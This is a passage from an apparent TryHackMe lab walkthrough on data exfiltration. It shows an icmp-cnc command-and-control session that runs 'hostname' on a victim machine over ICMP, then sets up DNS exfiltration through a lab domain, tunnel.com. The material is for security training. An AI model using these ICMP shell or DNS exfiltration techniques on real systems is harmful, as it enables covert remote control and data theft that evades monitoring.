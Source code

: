 Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the JumpBox and execute the icmp-cnc binary to communicate with the victim, our ICMP-Host. Once the execution runs correctly, a communication channel is established  over the ICMP protocol. Now we are ready to send the command that needs  to be executed on the victim machine. 

- **The data that needs to be transferred**

```shell
thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: hostname
hostname
shell: icmp-host
            
```

Similar to the client-side binary, ensure to select the interface for the communication as well as the destination IP. As the previous  terminal shows, we requested to execute the hostname command, and we received icmp-host.

To confirm that all communications go through the ICMP protocol, we  capture the network traffic during the communication using tcpdump as  the following:

![Capture ICMP traffic using tcpdump](./assets/b7df6f586e47769bf2addbee68d69cdc.png)

#  DNS Configurations

To perform exfiltration via the DNS protocol, you need to control a domain name and set up DNS records,  including NS, A, or TXT. Thus, we provide a web interface to make it  easy for you to add and modify the DNS records. The following domain  name is set up and ready for the DNS exfiltration task: tunnel.com.

To access the website, you may visit the following link: http://10.10.96.213/ or https://10-10-96-213.p.thmlabs.com/ without the need for a VPN.

![THM DNS Changer - The Main web interface](./assets/b8b4c25e0eb4dd04f1aea8596bf9319e.png)
